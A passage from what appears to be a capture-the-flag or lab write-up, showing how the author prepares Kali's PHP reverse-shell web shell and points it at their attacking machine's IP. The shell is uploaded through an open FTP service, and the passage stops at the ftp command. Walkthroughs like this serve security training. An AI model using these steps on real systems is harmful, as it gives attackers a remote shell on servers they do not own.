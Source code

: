 And the fancy picture:

![alt text](files/important.jpg "screenshot")

*My first thought was that this is a photo composition with the profile pic of [sswisskyrepo](https://github.com/swisskyrepo), but no, have checked. We never know with these monkeys.*

## Uploading a web shell

Well, what can I tell? It sounds like they are asking for it. Free FTP access, and upload capabilities. And like we have seen so far, other monkeys already uploaded fancy stuff. I'm not going to upload free pr0n or one of my favorites computer related series, [Mr. Robot](https://en.wikipedia.org/wiki/Mr._Robot). I'm not into pr0n, and uploading nice series takes a lot of time, so I have to try out my lightweight tools.

On a `Kali` machine, we have various web shells preinstalled for different languages. See also the bonus tip bellow. I used this one `/usr/share/webshells/php/php-reverse-shell.php` which I copied to my `~/tools/webshells/` renamed it to `webshell.php` and edited the `$ip` variable with my current IP of my attackers box. Left the `port` config as is on `1234`. However, it would have been smarter to use a more discrete port in real life situations. Finally, I have uploaded it in the `ftp` folder on the ftp server by using the same technique as previously done during my test. The file ended up at: <http://10.10.218.64/files/ftp/webshell.php>

```commandline
┌──(itchy㉿scratchy)-[~]
└─$ mkdir -p ~/tools/webshells

┌──(itchy㉿scratchy)-[~]
└─$ cd ~/tools/webshells

┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php webshell.php

┌──(itchy㉿scratchy)-[~]
└─$ ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'
10.8.208.30

┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ sed -i s@127.0.0.1@10.8.208.30@ webshell.php

┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ ftp 10.10.218.64
```